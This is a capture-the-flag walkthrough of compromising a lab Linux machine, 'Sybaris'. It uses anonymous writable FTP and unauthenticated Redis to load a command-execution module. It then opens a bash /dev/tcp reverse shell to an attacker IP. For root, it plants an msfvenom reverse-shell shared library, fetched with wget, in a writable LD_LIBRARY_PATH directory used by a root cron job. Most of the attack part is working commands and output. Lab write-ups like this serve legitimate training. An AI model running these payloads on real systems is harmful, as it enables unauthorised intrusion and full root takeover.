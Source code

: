 # Sybaris

### Enumeration

```
21/tcp    open   ftp       vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
...
6379/tcp  open   redis     Redis key-value store 5.0.9
...
```

### Initial Access

```
$ redis-cli -h 192.168.71.93
```

No need password. We can get a shell with Redis RCE.

[https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#load-redis-module](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#load-redis-module)

```
$ git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
$ cd RedisModules-ExecuteCommand 
$ make
$ cp module.so ../
```

```
ftp> put module.so
```

We can assume pub dir in base ftp dir which is /var/ftp.

```
$ redis-cli -h 192.168.71.93
192.168.71.93:6379> MODULE LOAD /var/ftp/pub/module.so
OK
192.168.71.93:6379> MODULE LIST
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
192.168.71.93:6379> system.exec "whoami"
"pablo\n"
```

https://www.revshells.com/ - Bash 196 - 192.168.49.71 80 /bin/bash

```
0<&196;exec 196<>/dev/tcp/192.168.49.71/80; /bin/bash <&196 >&196 2>&196
```

```
192.168.71.93:6379> system.exec "0<&196;exec 196<>/dev/tcp/192.168.49.71/80; /bin/bash <&196 >&196 2>&196"
```

### PrivEsc

Getting stable shell.

```
[pablo@sybaris users]$ pwd
/var/www/html/config/users

[pablo@sybaris users]$ cat pablo.ini
password = [REDACTED]
role = admin
```

ssh -> pablo:\[REDACTED]

```
[pablo@sybaris html]$ cat /etc/crontab
...
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
...
  *  *  *  *  * root       /usr/bin/log-sweeper
  
[pablo@sybaris html]$ /usr/bin/log-sweeper
/usr/bin/log-sweeper: error while loading shared libraries: utils.so: cannot open shared object file: No such file or directory

[pablo@sybaris html]$ ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007ffce1f9a000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f0ece0d4000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0ece4a2000)
```

There is a missing shared library which is utils.so. According to the crontab, there is a writable dir which is /usr/local/lib/dev(Ref. LD\_LIBRARY\_PATH). We can use this situation to get root shell.

[https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library](https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library)

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.71 LPORT=80 -f elf-so -o utils.so
```

```
[pablo@sybaris dev]$ pwd
/usr/local/lib/dev
[pablo@sybaris dev]$ wget http://192.168.49.71/utils.so
```

In a minute, we could get root shell.
